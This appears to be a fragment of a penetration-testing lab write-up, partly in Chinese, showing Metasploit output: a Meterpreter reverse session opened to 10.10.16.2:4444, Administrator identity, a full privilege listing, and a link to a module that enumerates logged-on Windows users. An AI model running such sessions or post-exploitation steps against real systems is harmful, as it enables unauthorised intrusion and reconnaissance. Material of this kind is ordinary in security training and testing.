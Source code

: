 ```
[*] Sending stage (180291 bytes) to 10.0.19.183
[*] Meterpreter session 1 opened (10.10.16.2:4444 -> 10.0.19.183:49400) at 2023-05-31 07:23:32 +0530
[!] Tried to delete %TEMP%\tWhYGmfYw.vbs, unknown result
[*] Server stopped.

meterpreter > 
```

```
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
```

```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

[Windows Gather Logged On User Enumeration (Registry)](https://www.rapid7.com/db/modules/post/windows/gather/enum_logged_on_users/)

Windows 收集登录用户枚举（注册表）

该模块将枚举当前和最近登录的 Windows 用户。
